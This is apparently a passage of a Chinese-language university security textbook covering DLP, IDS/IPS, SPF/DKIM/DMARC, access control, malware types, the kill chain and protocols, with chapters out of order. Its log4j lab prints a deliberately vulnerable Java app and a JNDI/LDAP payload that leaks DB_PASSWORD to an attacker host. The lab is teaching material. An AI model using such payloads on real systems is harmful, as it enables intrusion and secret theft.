网络 `DLP` 解决方案可能会监控电子邮件或 Web 流量中的敏感字符串，例如 `SSNs`。当在电子邮件中检测到 `SSN` 时，电子邮件会被隔离并发送警报。服务器和端点 `DLP` 解决方案可能会定期扫描系统，查看是否存储了敏感字符串。如果是一个不应该访问敏感数据的系统，将发送警报。端点上的 `DLP` 还可以限制 USB 使用或大量数据传输等任务。

## 6.6. IDS/IPS

入侵检测系统和入侵防御系统是监控网络流量以检测/防止攻击的系统。这些系统可能会在流量中查找已知的漏洞利用，例如 SQL 注入模式，并在检测到时触发警报。入侵防御系统会更进一步，实际上会关闭连接或终止违规进程。

这些系统使用漏洞利用签名或 ID，这些是妥协指标（`IoCs`）、异常或奇怪行为。IDS/IPS 的强大之处往往来自其签名数据库的更新程度。该类别中有许多解决方案，包括 Splunk、QRadar、CrowdStrike 和 SolarWinds。

## 6.7. 电子邮件解决方案

用于发送/接收电子邮件的原始协议很简单，并非为我们今天面临的挑战而设计。SPAM 和钓鱼电子邮件不幸的是很常见，可以通过电子邮件客户端插件来解决，这些插件会扫描病毒或使用模式来识别钓鱼电子邮件。其中许多工具已经内置在 Google 的 GMail 或 Microsofts Exchange 中。

另一个重大挑战是验证电子邮件的发件人。目前存在三种常见方法：发件人策略框架（`SPF`）、域密钥识别邮件（`DKIM`）和基于域的消息认证、报告和一致性（`DMARC`）。

`SPF` 利用 DNS 域上的 TXT 记录来验证发件人的 IP。当接收到入站邮件时，会检索发件人域的 `SPF` 信息，从而获得允许的 IP 列表。例如，NJIT 的 `SPF` 记录目前如下所示：

```
v=spf1 ip4:128.235.251.0/24 ip4:128.235.209.0/24 ip4:66.207.100.96/27 ip4:66.207.98.32/27 ip4:205.139.104.0/22 ip4:206.79.6.0/24 ip4:209.235.101.208/28 ip4:216.185.73.96/27 ip4:69.196.241.0/28 ip4:69.196.242.128/28 ip4:46.183.242.192/28 ip4:202.38.144.192/28 ip4:69.196.236.208/28 ip4:103.225.232.128/28 ip4:37.216.222.128/28 ip4:64.125.200.96/28 ip4:74.217.49.0/25 ip4:69.25.227.128/25 ip4:52.45.50.190 ip4:198.187.196.100 include:_netblock.njit.edu include:spf.sparkmail.org ~all
```

需要注意的是，并非所有这些 IP 都属于 NJIT。有些可能是代表 NJIT 发送电子邮件的群组，例如大量邮件发送器、Web 应用程序等。当正确配置时，`SPF` 可防止攻击者冒充来自某个域的电子邮件。

`DKIM` 利用公钥和私钥加密来确保电子邮件来自特定的 SMTP 服务器。域的公钥通过特定域的 TXT DNS 记录进行宣传。该域的 SMTP 服务器使用私钥对正在发送的电子邮件进行签名。接收的 SMTP 服务器随后可以验证消息是否来自该域的有效 SMTP 服务器。私钥也可以分发给代表该域发送电子邮件的 SMTP 服务器。

`DMARC` 对 `SPF` 和 `DKIM` 验证应用策略。`DMARC` 回答诸如“如果消息来自有效的 `SPF` IP 但没有有效的 `DKIM` 签名，我该怎么办？”或“对于看起来像 SPAM 但具有有效 `DKIM` 签名的消息，我该怎么办？”等问题。`DMARC` 将许多用于验证电子邮件的工具结合在分层方法中，以确定是放行、隔离还是阻止电子邮件。

## 6.8. SIEM

安全信息和事件管理是一种用于实时监控安全信息的系统。通常，SIEM 系统会显示事件的仪表板，并具有生成报告或创建工单的功能。它可以是独立设备、内部设备上的软件，甚至是第三方服务。一些流行的 SIEM 示例包括 QRadar、Splunk 和 Azure Sentinel。

## 6.9. 实验：利用 log4j

在本实验中，我们将研究 log4j 漏洞，CVE-2021-44228。该漏洞利用了许多 Java 应用程序（包括 Apache、neo4j、Steam、iCloud 和 Minecraft）使用的常见日志记录库中的一个缺陷。任何能够导致消息被记录的攻击者都可以使用 Java 命名和目录接口（`JNDI`），并导致目标连接到另一台服务器（在我们的示例中为 LDAP），并加载远程 Java 类文件。该文件可以包含攻击者希望注入到服务器进程中的任何代码。

做一些研究：log4j 的哪些版本受此漏洞影响？

本实验使用 Docker Compose 配置来模拟一个包含攻击者和目标的网络。目标运行一个由 leonjza 编写的已知易受攻击的示例应用程序。此示例应用程序记录请求的 User-Agent 标头、请求路径和查询字符串参数，如下所示：

### Listing 13. App.java

```
package com.sensepost.log4jpwn;
```


`import org.apache.logging.log4j.Logger;`

`import org.apache.logging.log4j.LogManager;`

`import static spark.Spark.*;`

`public class App {`

`static final Logger logger = LogManager.getLogger(App.class.getName());`

`public static void main(String[] args) {`

`port(8080);`

`get("/*", (req, res) -> {`

`String ua = req.headers("User-Agent");`

`String pwn = req.queryParams("pwn");`

`String pth = req.pathInfo();`

`System.out.println("logging ua: " + ua);`

`System.out.println("logging pwn: " + pwn);`

`System.out.println("logging pth: " + pth);`

`// trigger`

`logger.error(ua);`

`logger.error(pwn);`

`logger.error(pth);`

`return "ok: ua: " + ua + " " + "pwn: " + pwn + " pth:" + pth;`

`});`

`}`

`}`

## 漏洞应用运行端口

我们的漏洞应用运行在哪个端口？我们的攻击者容器中有 `pwn.py` 脚本，也是由 leonjza 编写的，它做了两件事：

1. 在后台运行一个伪 LDAP 服务器，监听端口 `8888`
2. 发送带有 JNDI URI 的请求，引用伪 LDAP 服务器以获取 Java 值来泄露数据
3. 解析并打印响应

使用此设置，我们可以展示如何利用 log4j 从运行中的进程泄露敏感信息。我们将使用它来泄露环境变量 `DB_PASSWORD` 的值。由于在运行中的容器上将密钥存储在环境变量中并不罕见，这应该足以让我们看到此漏洞利用有多么具有毁灭性。

首先，下载此实验室的 zip 存档，并在具有写入权限且可以在终端应用程序中导航的目录中解压缩。完成后，可以在该目录中输入 `docker-compose up` 来启动实验室。输出应类似于以下内容：

```
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose up

[+] Running 2/0
- Container log4j-target-1    Created                                                            0.0s
- Container log4j-attacker-1  Created                                                            0.0s

Attaching to log4j-attacker-1, log4j-target-1

log4j-attacker-1 exited with code 0

log4j-target-1    | WARNING: sun.reflect.Reflection.getCallerClass is not supported. This will impact performance.

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @815ms to org.eclipse.jetty.util.log.Slf4jLog

log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...

log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.14+9-post-Debian-1deb11u1

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@401fccd3{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}

log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - Started @960ms
```

你会注意到目标服务正在运行 `log4jpwn` 示例应用程序，并且其输出直接显示在屏幕上。攻击者服务会立即退出，因为它是为交互式使用而设计的，不会在后台运行任何内容。在另一个终端中，再次导航到实验室目录并运行 `docker-compose run attacker bash`。这将是你用来攻击目标的 shell：

```
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose run attacker bash

root@3971c61303c8:/#
```

① 注意提示符在进入容器后如何更改。

在攻击 shell 中，使用 `ip` 命令确定容器的 IPv4 地址。我们需要这个地址，因为一旦利用字符串被记录，攻击者容器将监听来自目标的连接：

```
root@3971c61303c8:/# ip addr show dev eth0

58: eth0@if59: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default

link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0

inet <IP_ADDRESS>/16 brd 172.20.255.255 scope global eth0 ①

valid_lft forever preferred_lft forever
```

① 你的 IP 不是 `<IP_ADDRESS>`，而是你在其位置找到的任何内容！

一旦你获得 IP 地址，就可以在攻击者容器上运行 `pwn.py` 脚本，你应该能够读取目标容器上的 `DB_PASSWORD` 环境变量：

```
root@3971c61303c8:/# python /pwn.py --listen-host <IP_ADDRESS> --exploit-host <IP_ADDRESS> --target http://target:8080 --leak '${env:DB_PASSWORD}' ①

i| starting server on <IP_ADDRESS>:8888

i| server started

i| setting payload in User-Agent header

i| sending exploit payload ${jndi:ldap://<IP_ADDRESS>:8888/${env:DB_PASSWORD}} to http://target:8080/

i| new connection from <TARGETS_IP>:44050

v| extracted value: <DB_PASSWORD> ②

i| request url was: http://target:8080/
```


i| response status code: 200 ¶

① Docker Compose will resolve service names to IP addresses so the target URI doesn’t require finding an IP

② The value of `DB_PASSWORD` can will be here.

数据库密码是什么？

为了降低已部署应用程序存在此漏洞的风险，你会采取哪些措施？

## 6.10. 复习题

安全解决方案从物理设备迁移到云服务是什么意思？请举例说明。

在你看来，误报和漏报哪种更具破坏性？为什么？

站点到站点 VPN 的应用有哪些？请举例说明办公室可能会使用它的场景。

## 7. 访问控制

访问控制旨在提供工具，用于针对特定资源进行识别、身份验证、授权和审计。虽然单个控制可能提供多个部分，但了解每个部分代表的含义仍然很重要：

### 识别

识别行为者或用于识别行为者的事物的行为。这可能简单如驾驶执照，也可能复杂如只有私钥持有者才能生成的加密签名。示例：送货司机出示员工徽章。

### 身份验证

当身份通过特定过程得到确认时，此步骤发生。这可能是使用私钥的过程，或者是另一种生物识别过程，例如读取指纹。无论哪种情况，身份验证都是我们验证身份的方法。示例：检查送货司机的徽章。

### 授权

授权是指给予行为者访问资源的权限。在日常交谈中，我们可能会认为一旦行为者进展到这一步，授权就是理所当然的，但实际上授权依赖于前面步骤的完成，并且实际上可能会失败。系统可能已通过用户名和密码进行身份验证来识别某人是谁，但该用户未设置为有权访问资源。在这种情况下，授权步骤将失败。继续我们的送货司机示例：允许送货司机取件。

### 审计

最后，审计是记录对资源访问记录的过程。审计可能是已登录用户的日志以及他们各自访问了哪些资源的日志。同样，对于送货司机：司机的访问记录写在前台的登记簿中。

## 7.1. 一般原则和技术

### 7.1.1. 最小权限

最小权限原则指出，行为者应仅获得完成其任务所需的资源和所需权限。这些资源可以是进程、程序，甚至用户帐户。此原则减少了攻击面，并有助于防止恶意软件传播，因为单个被攻破的帐户将无法访问所有资源。

最小权限也是合规目的的重要概念。例如，法律可能要求审计所有具有互联网访问权限的帐户。通过将具有互联网访问权限的帐户限制为仅完成任务所需互联网访问权限的行为者的帐户，可以更容易地实现合规。

### 7.1.2. 多因素身份验证 (MFA)

多因素身份验证是一种技术，要求行为者提供两个或多个信息片段用作身份识别。身份识别的一些示例包括用户名和密码、令牌代码、物理令牌或生物识别数据。通常建议使用“拥有的东西和知道的东西”，例如发送到您手机的短信中的代码（您拥有手机）和密码（您知道您的密码）。

有许多流行的 MFA 产品，其中大多数基于基于时间的代码生成。Google Authenticator 和 Authy 均为手机应用程序，可从与验证系统同步的加密种子生成代码。RSA ID 在专用硬件设备上生成类似代码。

### 7.1.3. MAC、DAC、RBAC 和 ABAC

可以使用多种不同的授权模型。强制访问控制 (`MAC`) 要求所有对象（文件、目录、设备等）都具有安全标签，以标识谁可以访问它以及如何访问。这是一种特别严格的访问控制形式，需要大量努力来实现和维护，但可实现高安全级别。自主访问控制 (`DAC`) 通过允许对象所有者确定应将哪些权限组/用户授予该对象来简化事物。这提供了极大的灵活性和实现便利性，但如果对象所有者被攻破，可能会导致安全性较低的环境。基于角色的访问控制 (`RBAC`) 在 `DAC` 的基础上构建，使用系统中的一组核心角色来确定谁对对象具有不同级别的访问权限。`RBAC` 是一种常见且灵活的模型，可以智能地用于实现 `DAC` 或 `MAC`。基于属性的访问控制 (`ABAC`) 是一种较新的模型，在 `RBAC` 的基础上构建，并使用更通用的属性，而不仅仅是角色。`ABAC` 可以根据对象、用户、操作甚至外部上下文的属性来确定谁对对象具有不同级别的访问权限。这些属性可以以任何可以编码为规则的方式组合使用。例如，“从上午 9:00 到下午 5:00，授予 Fred 对此文件夹中非机密文档的读取权限。”

表 2. DAC、MAC、RBAC 和 ABAC 的比较



恶意软件最主要的目标是 Windows 操作系统，差距相当大。这很大程度上是因为它作为桌面操作系统的流行度。第二大目标是 Web 浏览器，它们为恶意软件提供了独特的跨平台覆盖。第三大目标是 Android 移动操作系统，虽然从技术上讲它是 Linux，但主要在手机上运行。Linux 和 Mac 受到的恶意软件关注较少。这可能部分归因于 Linux 的开源性质以及 Mac 使用的 BSD 内核，但也部分归因于这两种操作系统各自缺乏流行度。恶意软件通常广泛分发，这意味着它可以只针对最流行/可能最薄弱的环节，并且仍然可以成功。


# 3.3. 恶意软件类型

恶意软件的定义非常广泛，并且每天都有新的恶意软件被创建。这使得对恶意软件进行分类变得困难。在介绍一些基本类型时，请记住存在显著的重叠。例如，您可能会遇到作为病毒分发的勒索软件，或者作为木马分发的勒索软件。它是勒索软件这一事实并不妨碍它同时也是其他类型的恶意软件。

## 3.3.1. 蠕虫、病毒和木马

蠕虫是自我传播的程序，无需用户交互即可传播。其代码通常存储在独立对象中，例如隐藏的可执行文件。蠕虫通常不会严重损坏其宿主，因为它们关注的是快速、指数级的传播。

### Stuxnet

Stuxnet 是一种 2010 年的蠕虫，专门针对伊朗核设施。该蠕虫使用了前所未有的四个零日攻击，并设计为通过 USB 闪存驱动器和远程过程调用（RPC）传播。因此，它不仅仅依赖网络来传播。最终，Stuxnet 的有效载荷针对用于编程 PLC 设备的代码，这些设备控制电机并使其旋转过快，从而破坏离心机。Stuxnet 还使用了一个令人印象深刻的 rootkit 来掩盖其踪迹。鉴于 Stuxnet 的复杂程度，据信它是由美国和以色列开发的。

病毒通常需要用户交互，例如将受感染的文件从一台机器复制到另一台机器，并将其代码存储在机器上的另一个文件中。可执行文件可能会被感染，病毒代码被添加到在标准程序代码之前执行的单独页面中。病毒对宿主可能造成相当大的损害，因为它们可能需要大量资源来本地传播。“病毒”一词也是一个不幸的过载术语。由于其流行度，它常被一些低技能威胁行为者用来指代许多不同类型的恶意软件。

### Concept 病毒

Concept 病毒是第一个 Microsoft Word 宏病毒的示例。该病毒隐藏在 Microsoft Word 文件中，并使用 Word 的嵌入式宏语言来执行其复制任务。后来为 Excel 和其他具有足够复杂但最终不安全的内部脚本语言的程序创建了病毒。

木马是一种伪装成合法软件的恶意软件。它不必像利用用户安装、运行或向恶意代码授予额外权利那样依赖软件漏洞。木马是最流行的恶意软件类型，因为它们可以用作许多其他有效载荷的攻击向量。这个名字来自希腊神话，其中特洛伊木马被伪装成礼物并送给一个被围困的城镇。巨大的木马内部藏有秘密部队，他们在半夜出来打开城门。

### Emotet

Emotet 是一种 2014 年的银行木马，通过电子邮件传播。它使用恶意链接或启用宏的文档来诱使用户下载其代码。Emotet 是目前最昂贵和最具破坏性的恶意软件之一，平均每次事件修复成本约为一百万美元。它继续被改造以避免被检测，并利用更复杂的恶意软件。

## 3.3.2. 勒索软件


勒索软件是一种加密文件并要求支付赎金以解密文件的恶意软件。现代勒索软件使用对称加密快速加密文件，然后使用硬编码的公钥非对称加密对称密钥，威胁行为者持有相应的私钥。当支付赎金时，通常通过加密货币，威胁行为者可以使用其私钥解密对称密钥，用户可以使用对称密钥解密文件。

勒索软件被视为数据泄露，因为数据通常也会被外泄。值得注意的是，当支付赎金时，不能保证威胁行为者实际上会开始解密过程。勒索软件的典型目标包括企业基础设施和医疗保健系统，尽管勒索软件也可能被不加区分地传播。赎金支付可以成为一项赚钱的大生意，因此许多 APT 或犯罪集团可能会使用它。勒索软件被认为是当今网络稳定性最大的威胁。

## 3.3.3. 间谍软件

专门用于间谍活动/数据窃取的恶意软件称为间谍软件。与勒索软件一样，间谍软件也可以为威胁行为者带来金钱回报。行为者可能会使用敲诈勒索来要求付款，否则数据将被泄露。这通常意味着要么在暗网上出售，要么公开发布。再次，鉴于金钱收益的可能性，间谍软件通常与犯罪集团相关联。APT 也可能使用间谍软件来获取国家重要秘密。

客户数据、商业秘密、专有数据和政府秘密都是间谍软件的目标。即使在政府系统之外，在企业环境中，间谍软件仍然是一个主要威胁。

## 3.3.4. 加密劫持

使用工作量证明算法的加密货币使得程序将处理器周期转换为钱变得前所未有的容易。某些类型的恶意软件利用这一点，在用户的机器上后台挖掘加密货币。这种对电力和资源的窃取可以为恶意软件分发者带来收入，当挖矿资金存入他们的在线钱包时。

加密劫持比以往任何时候都更流行，尤其是考虑到已经创建了大量受感染机器的僵尸网络。加密劫持为恶意行为者提供了一条更简单的变现路径，他们可能已经控制了许多受感染的机器。

## 3.3.5. Rootkit


Rootkit 是一种旨在为系统提供后门访问权限的秘密程序。它们设计为保持隐藏，甚至可能主动禁用或规避安全软件。由于其底层性质，许多 rootkit 很难检测，甚至更难删除。

Rootkit 通常根据其隐藏的层进行分类：

Firmware Rootkit：固件是硬件设备用于运行的代码。它通常是一组用于设置和与设备交互的薄层命令。固件 rootkit 可能驻留在主板的 BIOS 中，并且可能非常难以删除。

Bootloader Rootkit：引导加载程序准备系统以引导操作系统内核，通常通过将内核加载到内存中。引导加载程序 rootkit 可能劫持此过程，将其自身加载到单独的内存空间中或操纵正在加载的内核。

Kernel-mode Rootkit：许多操作系统内核（包括 Linux）都有加载动态模块的能力。这些内核模块对操作系统内核操作具有完全访问权限。Kernel-mode rootkit 在实时检测时可能很困难，因为被指示检测 rootkit 的操作系统内核已不再可信。

Application Rootkit：应用程序或用户模式 rootkit 通常作为应用程序安装，在后台以管理员权限运行。这些 rootkit 通常是最容易开发和部署的，不需要对系统使用的硬件有底层知识，但它们也是最容易检测和删除的。

## 3.3.6. 僵尸网络

僵尸网络是由单一方控制的被攻击主机网络。这些主机可能是台式计算机、服务器，甚至是物联网（IoT）设备。僵尸网络通常用于大规模分布式拒绝服务（DDoS）攻击，攻击的性质是让许多机器向单台机器发送流量。僵尸网络也可用于发送垃圾邮件，因为它们对 SMTP 邮件中继的访问可能因其互联网服务提供商（ISP）而异。

机器人通常通过命令和控制（C2，C&C）服务器进行控制。虽然此 C2 服务器可能使用自定义协议，但现代僵尸网络更典型地依赖其他基础设施。C2 流量可以使用 SSH、HTTP、互联网中继聊天（IRC）甚至 Discord 向机器人发送命令并从机器人接收数据。

## 3.3.7. RAT

RAT 代表远程访问木马，用于获得对远程目标的完全访问和控制权。恶意软件分发者可以浏览计算机上的文件、发送按键和鼠标移动、查看屏幕，以及/或监控来自麦克风和摄像头的输入。RAT 通常会主动绕过安全控制，因此可能难以检测。

## 3.3.8. 广告软件 / 可能不需要的程序 (PUP)

广告软件是旨在跟踪用户行为并传递不需要的、有时具有侵入性的定向广告的恶意软件。广告软件可能会减慢系统速度和/或在网站上添加广告墙。这种类型的恶意软件通常针对用户的网络浏览器。

可能不需要的程序 (PUP) 通常作为另一个程序的安装的一部分下载。常见的 PUP 包括浏览器工具栏、PDF 阅读器、压缩实用程序或浏览器扩展。这些程序可能包含广告软件/间谍软件组件，并且也可能减慢系统速度。

# 3.4. 妥协指标

妥协指标 (IoC) 是具有高度置信度的工艺品，表明发生了入侵。它是判断机器是否成为恶意软件受害者的一种方法。安全专业人员公开传达 IoC，以努力帮助减轻恶意软件的影响。

## 常见 IoC 类型

Hash：已知为恶意的文件的哈希值。这有助于识别木马和蠕虫。

IP 地址：跟踪恶意软件连接的 IP 地址可用于确定机器是否被感染。

URLs/Domains：跟踪恶意软件使用的 URL 或域名也可用于确定机器是否被感染。

病毒定义/签名：可执行文件和其他文件可以扫描特定病毒独有的字节序列。这样，即使恶意软件隐藏在另一个文件中，仍然可以检测到它。

# 3.5. 恶意软件传递

恶意软件通常通过社会工程学传递，即说服组织内的行为者下载并运行或点击某些东西。它也可以通过渗透软件包所依赖的内容、供应链，或者可能通过公开暴露服务上的软件漏洞来传递。下面详细介绍了一些最常见的传播恶意软件的方式。

## 3.5.1. 钓鱼

钓鱼涉及通过欺诈性消息与某人通信，以努力使其执行会伤害他们的行为。它分为五个主要类别：

定向钓鱼：向特定企业或环境发送钓鱼电子邮件或其他通信。这些消息可能包含有关组织内部运作的信息，以试图证明其有效性。它们也可能利用特定组织中已知的不安全做法。定向钓鱼不是您常规的广撒网式钓鱼尝试，而是更多地是一种有针对性的、定制的活动。

鲸钓：针对组织中高级别个人。鲸钓通常与定向钓鱼结合使用。

短信钓鱼：使用短信进行钓鱼。

语音钓鱼：使用语音消息进行钓鱼。

钓鱼网站：威胁行为者可以尝试通过从非业务相关通信渠道获得的信息来获得未经授权的访问。例如，恶意行为者可能知道 CEO 经常光顾一个受欢迎的帆船论坛。这些行为者可以在帆船论坛上设置一个帐户，向 CEO 发送私信以获取信息。

## 3.5.2. 垃圾邮件

垃圾邮件包含大量未经请求的电子邮件。这些电子邮件可能是恶意的，也可能只是广告。无论哪种情况，垃圾邮件占所有电子邮件的近 85%。值得注意的是，有时通过垃圾邮件分发的恶意软件实际上被用来通过受害者的机器发送更多垃圾邮件。反垃圾邮件战争在不断演变，虽然我们发送电子邮件的方式已经做了许多更新，但许多改进尚未实现。

## 3.5.3. 垃圾桶搜寻

最终可能导致恶意软件传播的信息也可以在处理不当的垃圾中找到。旧记录或硬盘可能包含企业秘密或凭据，这些凭据会给某人带来未经授权的访问。正确处理敏感信息非常重要，确保所有需要销毁的东西都被彻底销毁。

## 3.5.4. 偷窥

PIN、密码和其他数据也可以通过简单地从某人肩膀上方查看来恢复。这些凭据可能是攻击者传播恶意软件所需的“入口”。借助光学设备（例如双筒望远镜），偷窥甚至可以在远距离发生。隐私屏幕（限制您可以看到显示器的角度）可以帮助减轻这种类型的攻击。

## 3.5.5. 跟尾

跟随持有凭据进入安全地点的人被称为跟尾。通常，人们甚至会为双手拿满东西的人持开安全门。想要帮助他人是人性，但您也必须记住，您身后的人可能带着一个准备好在获得建筑物内机器物理访问权限后立即部署恶意软件的 USB 密钥。

## 3.5.6. 冒充/身份盗用

通常作为钓鱼活动的一部分，威胁行为者会假装是另一个人。这可能是组织内部的人，或者是组织外部拥有足够权力的人，例如政府监管机构的代表。攻击者也可能使用被盗凭据使其消息看起来官方，再次为他们提供了一条部署恶意软件的便捷途径。

# 3.6. 网络杀伤链


分析涉及恶意软件的攻击的一种方法是通过网络杀伤链的步骤。网络杀伤链由洛克希德·马丁公司开发，是一种已被网络安全采用的军事分析方法。网络杀伤链分为七个步骤：侦察、武器化、传递、利用、安装、命令和控制、外泄。

## 3.6.1. 侦察

侦察是侦察的缩写，是军事术语，用于初步调查以获取信息。在侦察阶段，恶意行为者会尽可能收集大量信息。此阶段使用的方法可能是被动的或主动的。

被动侦察涉及在不向目标发送任何内容的情况下收集信息。这通常涉及访问公开可用的信息，例如社交媒体、发布的网站和 DNS 记录。如果行为者有权访问，他们也可以被动嗅探网络数据包。

主动侦察涉及与目标交互。这可能包括端口扫描、漏洞扫描、[在 HTTP 服务器上暴力破解目录和文件名](https://www.kali.org/tools/dirbuster/)，甚至联系员工。主动侦察可以产生更多信息，但也更容易被检测到。

## 3.6.2. 武器化

在武器化阶段，行为者开始准备在侦察期间评估的漏洞的利用程序。这可能包括定制恶意软件、创建钓鱼电子邮件、定制工具以及为攻击准备环境。为了使恶意软件有效，它必须利用正确的利用程序并在正确的操作系统和环境下工作。[Metasploit](https://www.metasploit.com/) 是一个渗透测试框架，通常在此步骤中用于创建自定义恶意软件。

## 3.6.3. 传递

在传递阶段，恶意软件被交给目标。通常会采取措施绕过检测系统。传递可能涉及发送链接到恶意软件的电子邮件或利用易受攻击的服务器来运行恶意软件。在此阶段结束时，攻击者通常会等待恶意软件通过命令和控制通道的回调。

## 3.6.4. 利用

从技术上讲，利用步骤发生在恶意软件成功执行后。在许多情况下，这几乎不涉及攻击者的交互。一旦恶意软件被激活或利用的有效载荷被执行，受害者就完成了利用步骤。

## 3.6.5. 安装

安装步骤通常由恶意软件在运行后执行。恶意软件安装自身，隐藏自身，并设置持久性（停止后重新启动的能力）。恶意软件可能会提升权限或横向移动。它还可能从远程服务器安装第二阶段的其他有效载荷。一种常见的策略是将下载的代码注入现有进程，以掩盖哪个进程正在执行可疑操作。

## 3.6.6. 命令和控制 (C2, C&C)

恶意软件将通过其命令和控制通道寻求更多指令。此时，攻击者可以与恶意软件交互，向其发送其他命令。C2 流量通常设计为与现有流量融为一体，不引起注意。

## 3.6.7. 外泄 / 行动与目标

最后一步涉及从被攻击系统获取数据，或以其他方式禁用/滥用系统。此时，攻击者可以使用 C2 通道从系统中提取敏感信息，例如信用卡信息、密码哈希等。需要注意的是，数据外泄可能不是攻击的唯一目标。攻击者还可以禁用系统、利用系统实施欺诈、挖掘加密货币等。此时，恶意行为者完全控制了被攻击系统。

# 3.7. 实验：恶意软件分析

网站 [Any Run](https://any.run) 提供免费的交互式恶意软件分析。我们将使用此网站来避免在虚拟机中运行恶意软件的复杂性。

首先访问 [Any Run](https://any.run) 并使用您的 NJIT 电子邮件地址注册帐户。一旦您通过电子邮件激活帐户，请按照教程学习如何分析威胁。使用 Any Run 提供的演示示例任务。按照提示并观察进程树的变化。请随意花时间，即使时间过期后，您仍然可以查看运行中的进程并分析 HTTP 请求、连接、DNS 请求和威胁。

对于本实验，我们将查看 [Emotet](https://www.malwarebytes.com/emotet) 的示例，这是一种 2014 年发现的银行木马。在 Any Run 网站的左侧，点击 Public tasks 并搜索 md5 值 `0e106000b2ef3603477cb460f2fc1751`。选择一个示例（共有三个）并查看截图，以了解恶意软件的运行方式。查看网络流量进程也可能有所帮助。

点击右上角的 Restart 运行虚拟机。执行触发恶意软件所需的操作，根据需要添加时间。最后，在虚拟机上打开记事本，输入您的姓名，并拍摄一个唯一的截图。

使用 Any Run 工具分析您选择的恶意软件。

# 3.8. 复习问题

为什么 APT 可能会选择使用无文件恶意软件，而不是从机器上的文件运行的恶意软件？：什么是 IoC？给出一个示例。：什么是钓鱼？钓鱼的五种类型是什么？给出每种类型的示例。：

# 4. 协议

协议可以被视为规定通信的规则。协议可能包括有关使用的语法、错误校正、同步或在该情况下通信发生的任何其他方面的信息。在计算机安全中，彻底了解常见协议非常重要，因为它们的弱点往往决定了攻击如何以及是否会发生。协议既存在于硬件中，也存在于软件中，并由个人和组织开发。早期的网络协议通常通过邮件列表使用请求评论（RFC）开发。您可能仍然会看到正在起草、引用或积极处理的 RFC。[一些最早的 Web 协议在 RFC 中有详细说明。](https://datatracker.ietf.org/doc/html/rfc2616) 大多数情况下，大型协议有工作组和协会进行开发，例如 [电气和电子工程师学会 (IEEE)](https://www.ieee.org/) 的 802.11 组，它处理 WiFi 协议。这些组发布论文详细说明协议的工作原理。

本章将按照 TCP/IP 分层模型简要介绍重要协议。需要注意的是，某些协议可能跨越层级以完成任务。在这种情况下，它们将根据其主要功能所在的层级进行分组。

## 4.1. 网络访问层

### 4.1.1. ARP

地址解析协议 (ARP) 用于本地以太网段，用于将 IP 地址解析为 MAC 地址。由于该协议在以太网段级别运行，安全性并非主要关注点。不幸的是，这意味着 ARP 通信很容易被伪造以造成中间人攻击场景。恶意行为者只需发送几个 ARP 数据包，即免费 ARP，声称某个 IP 地址的流量应发送给他们。由于 MAC 到 IP 地址表在多个位置缓存，所有缓存失效并解决由恶意 ARP 帧引起的问题可能需要很长时间。

有一种协议旨在减轻 ARP 的问题。动态 ARP 检查 (DAI) 跨越层级，与 DHCP 租约数据库协同工作，丢弃未使用 DHCP 租约授予时使用的 MAC 地址的数据包。虽然这可以解决与 ARP 相关的许多问题，但使用 HTTPS 等安全的高级协议也是一种良好的做法，以防万一。

### 4.1.2. Wifi

我们最关心的 WiFi 协议是用于加密数据的安全标准。由于无线协议的性质，网络上发送的信息对任何拥有天线的人都可用。这些 WiFi 安全标准是保护您的网络流量不被传输范围内的任何人查看的唯一东西。目前有四种标准：

WEP：无线等效隐私 (WEP) 已弃用，不应使用。它开发于 1999 年，使用 RC4 流和 24 位加密。已经开发出几种攻击，可以在几秒钟内破解 WEP。

WPA：WiFi 保护访问 (WPA) 使用临时密钥完整性协议 (TKIP) 来更改使用的密钥。这种 128 位加密方法也已被破解，协议不应使用。

WPA2：WiFi 保护访问 2 (WPA2) 使用 AES 加密，目前是最流行的标准。WPA2 仍然被认为是安全的。

WPA3：WiFi 保护访问 3 (WPA3) 开发于 2018 年，目前被认为是最先进的。许多网络正在开始从 WPA2 过渡到 WPA3。

## 4.2. 互联网层协议

### 4.2.1. IP

IP 代表互联网协议，它被设计用于创建网络的网络。主要使用它的网络是互联网，尽管您也可以在其他场景中使用 IP。IP 主要关注跨网络和向网络路由流量。该协议最初由 IEEE 在 1974 年详细说明，源自高级研究计划署网络 (ARPANET) 项目，该项目创建了第一个大型分组交换网络。

大多数人都熟悉 IP 地址，即参与 IP 网络的主机的唯一编号。目前 IP 协议主要有两个版本，IPv4 和 IPv6，主要区别之一在于可用 IP 地址的数量。IPv4 支持 32 位地址，IPv6 支持 128 位地址。为了了解这有多大的变化，我们目前已分配所有可能的 IPv4 地址，但使用 IPv6，我们可以给地球海滩上的每一粒沙子分配一个地址，而且仍然不会用完。

### 4.2.2. ICMP

互联网控制消息协议 (ICMP) 主要用于在 IP 不起作用时在系统之间发送消息。例如，假设我们尝试连接到某个主机，但我们的路由器不知道如何到达那里。我们的路由器可以向我们发送 ICMP 目标不可达消息，以告知我们出了问题。由于 ICMP 消息在网络层工作，即使互联网层有问题，我们也会收到此消息。

ICMP 最常见的用途是 `ping` 命令。`ping` 发送 ICMP 回显请求以检查主机是否在线。通过用请求中包含的数据响应请求，我们可以假设主机正在运行并正常工作。

